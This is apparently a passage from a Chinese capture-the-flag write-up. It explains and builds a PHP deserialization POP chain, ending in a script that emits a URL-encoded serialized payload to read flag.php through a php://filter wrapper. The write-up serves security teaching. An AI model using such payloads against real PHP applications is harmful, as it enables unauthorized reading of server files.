 ```php
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

这里我直接说利用思路，首先逆向分析，我们最终是希望通过`Modifier`当中的`append`方法实现本地文件包含读取文件，回溯到调用它的`__invoke`，当我们`将对象调用为函数时触发`,发现在`Test`类当中的`__get`方法，再回溯到`Show`当中的`__toString`，再回溯到`Show`当中的`__construct`当中有`echo $this->source`可以调用`__toString`

因此不难构造pop链

```php
<?php
ini_set('memory_limit','-1');
class Modifier {
    protected  $var = 'php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        $this->str = new Test();
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$a = new Show('aaa');
$a = new Show($a);
echo urlencode(serialize($a));
```

## PHP原生类反序列化利用
